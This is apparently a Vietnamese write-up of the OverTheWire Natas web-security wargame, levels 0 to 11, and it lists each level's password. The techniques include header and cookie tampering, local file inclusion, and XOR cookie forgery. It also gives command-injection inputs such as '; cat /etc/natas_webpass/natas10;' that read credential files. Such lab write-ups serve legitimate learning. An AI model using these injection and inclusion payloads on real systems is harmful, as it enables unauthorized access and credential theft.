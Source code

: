 ## Writeup Natas

- Natas 0
  ctrl + u ta thấy password natas1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

- Natas 0 -> 1
  vô hiệu hóa javascript trên trình duyệt là có thể chuột phải, hoặc bấm ctrl + u :v 
  pass: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

- Natas 1 -> 2
  vẫn ctrl+u thấy có một đường dẫn đến file ảnh /files/pixel.png. Thế nên mình truy cập đến url /files thôi, xem thử có gì không
  thì thấy có thêm một file users.txt. Mở ra thì thấy natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

- Natas 2 -> 3
  Ctrl + u ra dòng này: No more information leaks!! Not even Google will find it this time...
  Vậy là file robots.txt rồi. Xem thử thì thấy url /s3cr3t/ vào thấy file users.txt ra natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

- Natas 3 -> 4
  Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
  Lúc đầu vào nó hiện ra thông báo này, nó nói là chúng ta truy cập từ "", bạn nên truy cập từ natas5.., nhấn vào link refresh page thì
  Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

  Xem burp thì thấy dòng Referer: http://natas4.natas.labs.overthewire.org/ vậy giờ thay đổi link như hướng dẫn là được
  kết quả: Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

- Natas 4 -> 5
  Access disallowed. You are not logged in
  Xem thử cookie thấy có trường loggedin đang có giá trị 0, sửa lại thành 1 
  kết quả: Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

- Natas 5 -> 6
  ```php
  include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
  ```
  Khi ta nhập đúng secret thì ok. Thế secret ở đâu ? ta thấy dòng - include "includes/secret.inc"; nó lấy từ file này, vậy ta thử truy cập
  url này xem thế nào, ta có: $secret = "FOEIUWGHFEEUHOFUOIU"; giờ nhập vô là ok 
  kết quả: Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

- Natas 6 -> 7
  ta thấy trong web có hai button dẫn đến hai đường link, home và about có địng dạng index.php?page= , mà thêm câu gợi ý 
  hint: password for webuser natas8 is in /etc/natas_webpass/natas8 , thế là web này bị lỗi local file inclusion, ta có url
  index.php?page=/etc/natas_webpass/natas8 thế là ra pass DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

- Natas 7 -> 8
  source code
  ```php
  $encodedSecret = "3d3d516343746d4d6d6c315669563362";

  function encodeSecret($secret) {
      return bin2hex(strrev(base64_encode($secret)));
  }

  if(array_key_exists("submit", $_POST)) {
      if(encodeSecret($_POST['secret']) == $encodedSecret) {
      print "Access granted. The password for natas9 is <censored>";
      } else {
      print "Wrong secret";
      }
  }
  ```
  mình nhập vào input rồi nó xào nặn bằng hàm encodeSecret, sau khi sào nặn xong giống với $encodedSecret
  cho từ đầu thì có password. Vậy giờ ta viết đoạn decode hàm trên, ta có 

  ```php
  $secret = "3d3d516343746d4d6d6c315669563362";
  echo base64_decode(strrev(hex2bin($secret)));
  ```
  ra được kết quả: oubWYf2kBq , nhập vào input ta được Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

- Natas 8 -> 9 
  Ta có source
  ```php
  $key = "";

  if(array_key_exists("needle", $_REQUEST)) {
      $key = $_REQUEST["needle"];
  }

  if($key != "") {
      passthru("grep -i $key dictionary.txt");
  }
  ```
  chương trình hoạt động như sau: Mình nhập input thì nó gán vào biến $key và được vào thực thi câu lệnh
  grep -i $key dictionary.txt, điều đáng nói ở đây là không có kiểm tra đầu vào, người nhập muốn nhập gì nhập. Vậy ta sẽ nhập câu lệnh
  khác thử, ta dùng: ; ls /etc ; => ta thấy thư mục natas_webpass, lần mò vào trong ta được câu lệnh cuối cùng
  ; cat /etc/natas_webpass/natas10;  => nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

- Natas 9 -> 10 
  Dạng bài trước nhưng đã có kiểm tra input , nó trong cho dùng ; nữa thì mình đổi cái khác
  .* cat /etc/natas_webpass/natas11 #
  kết quả: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

- Natas 10 -> 11
  ```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = '<censored>';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  function loadData($def) {
      global $_COOKIE;
      $mydata = $def;
      if(array_key_exists("data", $_COOKIE)) {
      $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
      if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
          if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
          $mydata['showpassword'] = $tempdata['showpassword'];
          $mydata['bgcolor'] = $tempdata['bgcolor'];
          }
      }
      }
      return $mydata;
  }

  function saveData($d) {
      setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
  }

  $data = loadData($defaultdata);

  if(array_key_exists("bgcolor",$_REQUEST)) {
      if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
          $data['bgcolor'] = $_REQUEST['bgcolor'];
      }
  }

  saveData($data);



  if($data["showpassword"] == "yes") {
    print "The password for natas12 is <censored><br>";
}

app này hoạt động như thế này: có một mảng 2 đối tượng showpassword và bgcolor, nó mã hóa qua các bước đến tạo thành cái cookie.
Server sẽ kiểm tra showpassword yes or no, yes thì show password để đi tiếp. Vậy mình cần làm ra một cookie mà trường showpassword có
giá trị là yes.
mình hiện đang có một cookie có showpassword là no khi mình nhấn nút lúc ban đầu. Dựa vào source code ta đảo ngược quá trình mã hóa, 
nhưng ta thấy $key = '<censored>'; đang là một giá trị không biết. Tìm $key này trước.
ta dùng code này để giả lập.

```php
  $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw%3D');
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  echo xor_encrypt(json_encode($defaultdata));
```

  ta có $key = qw8J;
  Để đổi lại thông số showpassword bằng yes và giữ code y như ban đầu.
```php
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

  function xor_encrypt($in) {
      $key = 'qw8J';
      $text = $in;
      $outText = '';

      // Iterate through each character
      for($i=0;$i<strlen($text);$i++) {
      $outText .= $text[$i] ^ $key[$i % strlen($key)];
      }

      return $outText;
  }

  $new_cookie = base64_encode(xor_encrypt(json_encode($defaultdata)));
  echo $new_cookie;
  ```
  ra được cookie cần muốn: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK
  giờ chỉ cần edit cookie cũ , f5 lại trang là ok EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3


  
 